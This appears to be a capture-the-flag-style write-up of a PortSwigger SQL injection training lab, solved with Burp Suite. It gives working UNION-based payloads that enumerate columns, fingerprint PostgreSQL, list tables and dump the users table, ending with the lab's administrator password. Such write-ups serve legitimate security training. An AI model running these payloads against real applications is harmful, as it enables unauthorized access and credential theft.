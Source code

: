 # PortSwigger SQLi Lab #5 Write-Up

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

## Lab: SQL injection UNION attack, retrieving data from other tables

In this lab, Burp Suite will be used to find the administrator login credentials to the vulnerable website. 

After loading the lab, enable the Burp Suite proxy. Then turn on the intercept in Burp Suite and load the "Gifts" section of the vulnerable website. Burp Suite will then intercept that packet so it can be sent to the Repeater.

Now, the innards of the database can be examined through the use of some payloads.



<br>
Each payload will be entered right after the "gifts" part of the URL, as the categories field is what is vulnerable in this lab.

<br>

> Don't forget to 'ctrl u' or 'command u' in order to URL encode each paylod.



<br>

<br> 

### **1. Determine the number of columns with the following iterative payload process.**



```SQL
' order by 1--
```
This resulted in a 200 response code, meaning there is at least 1 column (*obviously, heh*).

<br>

```SQL
' order by 2--
```
200 status code

<br>

```SQL
' order by 3--
```
500 Internal Server Error

Because this was solved iteratively, the amount of columns is: 3 - 1 = 2.

<br>

> **Number of Data Columns = 2**

<br>

<br>

### **2. Determine the data types of the columns.**

<br>
Since both columns of data on the website seem to be just text, the initial guess is that both columns are strings.

```SQL
' UNION select 'a', 'a'--
```
200 Status Code

Due to the 200 status code, both of the columns are strings. If there were an error, try different data types (1, 1.1, etc.) using 'NULL' as a place holder for the other column.

<br>

> **Both columns are strings.**

<br>

<br>

### **3. Find the the type and version of the database.**

Use the following link as a cheat sheet.
https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>

Microsoft Database Version Payload:
```SQL
' UNION SELECT @@version, NULL--
```
500 error, it is not a microsoft database.

<br> 

PostgreSQL Database Version Payload:
```SQL
' UNION SELECT version(), NULL--
```
200 status code; it is a postgreSQL database.

After looking into the 200 response, the version of the postgreSQL can be found.

```HTML
<th>
PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on
x86_64-pc-linux-gnu, compiled by gcc 
(Ubuntu 9.4.0-1ubuntu1~20041) 9.4.0, 64-bit
</th>
```
<br>

> **Database Type = PostgreSQL**

<br>

<br>

### **4. Now that the database type is known, find the table names within the database.**

Use the following from the cheat sheet to get info from postgreSQL databases.
```SQL
SELECT * FROM information_schema.tables
```
Instead of *, find the correct name by looking at postgreSQL's documentation. This can be found by googling "information_schema.tables postgreSQL".

In the following link the table names for postgreSQL are identified as 'table_name'.
https://www.postgresql.org/docs/current/infoschema-columns.html

<br>

Therefore, the two column payload is:
```SQL
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
200 status code

In the 200 response, 'users' can be identified as one of the table names. This can be searched in the bottom search bar in Burp Suite repeater to keep from having to look through the whole response.

```HTML
<th>
users
</th>    
```
<br>

> **Table name = users**

<br>

<br>

### **5. Find the column names of the table name 'users'.**

Using the portswigger cheat sheet, the payload will look something like this:
```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
Instead of *, the postgreSQL website shows that the name of columns is column_name. 
```SQL
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'--
```
200 status code

Two of the columns in the response are named 'password' and 'username'. 

<br>

> **Column Names = Username, Password**

<br>

<br>

### **6. Now that the table and columns are known, call them using a simple 'UNION select' injection.**

```SQL
' UNION select username, password FROM users--
```
200 status code

The final injection displays the administrator username and password in the response.

```HTML
<th>
administrator
</th>
    <td>
    787wo1nrar3t43x9pcko
    </td>
```

<br>

> **Username = administrator** 

> **Password = 787wo1nrar3t43x9pcko** 

<br>

<br>

### **7. Return to the login page of the vulnerable website and login with the administrator's username and password.**


<br>

### Congratulations! The lab has been solved!



